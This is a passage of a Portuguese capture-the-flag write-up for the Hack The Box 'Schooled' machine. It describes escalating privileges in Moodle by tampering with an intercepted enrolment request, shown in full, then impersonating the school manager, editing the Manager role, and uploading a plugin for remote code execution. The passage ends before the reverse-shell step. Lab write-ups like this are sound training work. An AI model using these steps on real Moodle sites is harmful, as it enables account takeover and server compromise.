 Mesmo não funcionando adequadamente a PoC em nosso cenário, após entender exatamente os passos necessários, foi possível obter execução de código na máquina, conforme passos abaixo:

* Primeiro foi necessário identificar qual usuário na plataforma poderia ter o privilégio de manager. Com base nas informações obtidas a partire de reconhecimento do site institucional, **Lianne Carter** é a gerente da escola e provavelmente possui os privilégios dos quais precisamos.

* Também tomei nota sobre o Profile ID do usuário **Manuel Philips**, que foi obtido ao navegar à sua página no link  `http://moodle.schooled.htb/moodle/user/profile.php?id=24`.

* A exploração iniciou-se por fazer a inscrição da gerente da escola na turma de matemática e, interceptando a requisição utilizando o Burp Suite, enviei a mesma ao Repeater e, além da requisição inicial, fiz uma nova para nos conceder o priviégio de Manager no curso, por atribuir o valor `roleid=1` e substituir o ID do usuário pelo identificado previamente, conforme visto no video no repositório.

```http
GET /moodle/enrol/manual/ajax.php?mform_showmore_main=0&id=5&action=enrol&enrolid=10&sesskey=KbJYqTapFc&_qf__enrol_manual_enrol_users_form=1&mform_showmore_id_main=0&userlist%5B%5D=24&roletoassign=1&startdate=4&duration= HTTP/1.1
Host: moodle.schooled.htb
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/json
Referer: http://moodle.schooled.htb/moodle/user/index.php?id=5
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: MoodleSession=jil2s8i0vj0gq3vojfki6e7rtq
Connection: close
```

* Agora como um Administrador do curso, acessando um perfil de usuário podemos utilizar a função "Log in as", que nos permitiu acessar a plataforma como o usuário Lianne Carter.

  ![HTB Schooled - Impersonating Manager in Moodle](https://i.imgur.com/zRjimbq.png){: .align-center}
  
* Agora como Lianne, deveríamos ter privilégios de realizar o upload do plugin diretamente, uma vez que a opção "Site Administration" é exibida à esquerda, porém tais privilégios não são habilitados por padrão. Para tal atividade, precisamos editar a role acessando o menu "Site Administration" > "Users" e, na aba "Permissions", selecionei "Define Roles".

  ![HTB Schooled - Adjusting Role Definitions](https://i.imgur.com/6XmydvH.png)
  
* Selecionei a role **Manager** e, clicando no botão "Edit", interceptei a requisição e substitui o dado enviado pelo encontrado no repositório, qeu me concederia privilégios totais na aplicação.

  ![HTB Schooled - Modifying Manager role](https://i.imgur.com/lm0NOX7.png){: .align-center}

  ![HTB Schooled - Appending payload to Edit Request](https://i.imgur.com/5L28UqN.png){: .align-center}
  
* Agora, navegando em "Site Administration" > "Plugins" podemos ver a opção para instalação, para o qual o arquivo `rce.zip`, também disponibilizado no portal, foi carregado, nos permitindo executar comandos remotamente e obter um shell reverso a partir de chamadas na URL do plugin, conforme abaixo:
